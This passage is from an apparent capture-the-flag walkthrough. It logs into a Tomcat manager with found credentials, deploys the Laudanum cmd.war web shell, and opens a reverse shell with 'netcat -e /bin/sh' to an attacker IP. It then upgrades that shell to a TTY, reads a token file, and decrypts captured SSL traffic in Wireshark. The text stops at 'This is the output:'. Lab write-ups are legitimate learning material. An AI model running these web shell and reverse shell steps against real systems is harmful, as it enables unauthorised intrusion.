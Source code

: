 At the end we found the credentials:

User: tomcat Password: hydrogen

We are logged into tomcat control panel. We need to create a reverse shell. Download this repository: https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8. Browse to jsp and you will find cmd.war that is a tomcat module which can execute comannds into the server like the PHP shell of cabinet. Click Browse..., select cmd.war and click Deploy. Once you have uploaded it, you will find /cmd into application list. Go to http://localhost:9000/cmd/cmd.jsp and a simple interface will show up. Now we can execute simple commands like ls. We need to create a reverse shell into this server. In particular we need a bind shell. Execute this command into your PC:

sudo netcat -lvp 443

Then execute this into portal:

netcat -e /bin/sh 10.10.X.X 443

You will get a reverse shell without TTY. Execute this command into your terminal:

python -c 'import pty; pty.spawn("/bin/bash")'

A TTY shell will be spawn. Now we need to find the token. We need to use find command:

find -name "*token*"

A particular directory will be displayed: /webapps/ROOT/fOAhJ0MIS6_token.txt

Just execute:

cat webapps/ROOT/fOAhJ0MIS6_token.txt

And you will get the token. Now we can close the SSH tunneling: sudo killall ssh

Move to java-dev.

## JAVA-DEV

Do you remember the debug folder into davis folder? We need to take a look into. Open debug.log file and analyze it. We can see that it's an encrypted SSL traffic but we can decrypt it with Client Nonce key and Master Secret key. Scroll down the .log file and you can see that we have:

Client Nonce:

0000: 56 44 86 10 B9 95 CC 0F 81 00 56 0F CF 0C F8 BE VD........V..... 0010: 73 30 B2 D2 F3 1D 86 A4 25 9E 1E C1 02 F7 6C 50 s0......%.....lP

Master Secret:

0000: 7C DA 1B 70 81 AE 8A 7F AE 76 CA 71 FB C7 04 EC ...p.....v.q.... 0010: 24 79 6C E5 C1 F5 3A 15 F1 63 25 B3 39 46 54 4F $yl...:..c%.9FTO 0020: D0 B1 DA BD E4 DB 18 75 04 A7 4C 11 38 D1 63 BF .......u..L.8.c.

We just need to put this two string into a .txt file, and load it into Wireshark:

CLIENT_RANDOM 56448610b995cc0f8100560fcf0cf8be7330b2d2f31d86a4259e1ec102f76c50 7cda1b7081ae8a7fae76ca71fbc704ec24796ce5c1f53a15f16325b33946544fd0b1dabde4db187504a74c1138d163bf

Save it as premasterkey.txt. Open Wireshark, go to Edit->Preferences, now Protocols->SSL. Now select premasterkey.txt at (Pre)-Master-Secret log filename label. Press OK. Now File->Open and select the .pcapng file. Once you loaded it, click on Analyze->Decode As...->SSL. Now click on Client Hello string and Analyze->Follow SSL Stream. This is the output:
